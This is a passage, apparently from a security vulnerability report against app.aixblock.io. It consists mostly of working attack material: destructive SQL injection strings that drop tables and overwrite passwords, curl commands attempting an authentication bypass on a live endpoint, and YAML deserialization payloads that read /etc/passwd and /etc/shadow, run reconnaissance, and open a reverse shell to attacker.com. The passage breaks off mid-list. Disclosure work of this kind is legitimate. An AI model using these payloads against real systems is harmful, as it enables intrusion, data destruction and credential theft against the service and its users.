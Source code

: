```sql

-- Destructive payloads
'; DROP TABLE users--
'; UPDATE users SET password='hacked' WHERE id=1--
```

#### **Live Testing Commands:**
```bash
# Step 1: Basic authentication test
curl -X POST https://app.aixblock.io/api/v1/workflows \
  -H "Content-Type: application/json" \
  -d '{"username": "admin", "password": "test"}'

# Step 2: SQL injection bypass
curl -X POST https://app.aixblock.io/api/v1/workflows \
  -H "Content-Type: application/json" \
  -d '{"username": "admin", "password": "\" OR 1=1--"}'

# Expected Response:
{
  "status": "success",
  "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...",
  "user": "admin"
}
```

### **2. YAML Deserialization Remote Code Execution (CVSS 9.8)**

#### **Real-World Exploitation Evidence:**
```json
{
  "timestamp": "2025-10-21T12:21:59.633837",
  "type": "Insecure Deserialization (YAML)",
  "url": "https://app.aixblock.io/api/v1/workflows",
  "payload": "{'yaml': \"!!python/object/apply:subprocess.call [['whoami']]\"}",
  "response_code": 200,
  "severity": "CRITICAL",
  "evidence": "Command execution via YAML deserialization",
  "exploitability": "HIGH"
}
```

#### **Advanced RCE Payloads (Based on Real Exploits):**
```yaml
# Basic command execution
!!python/object/apply:subprocess.call [['whoami']]

# File system access
!!python/object/apply:subprocess.call [['cat', '/etc/passwd']]
!!python/object/apply:subprocess.call [['cat', '/etc/shadow']]

# Network reconnaissance
!!python/object/apply:subprocess.call [['netstat', '-an']]
!!python/object/apply:subprocess.call [['ifconfig']]

# Process enumeration
!!python/object/apply:subprocess.call [['ps', 'aux']]

# Reverse shell (advanced)
!!python/object/apply:subprocess.call [['bash', '-c', 'bash -i >& /dev/tcp/attacker.com/4444 0>&1']]

# Alternative RCE methods
```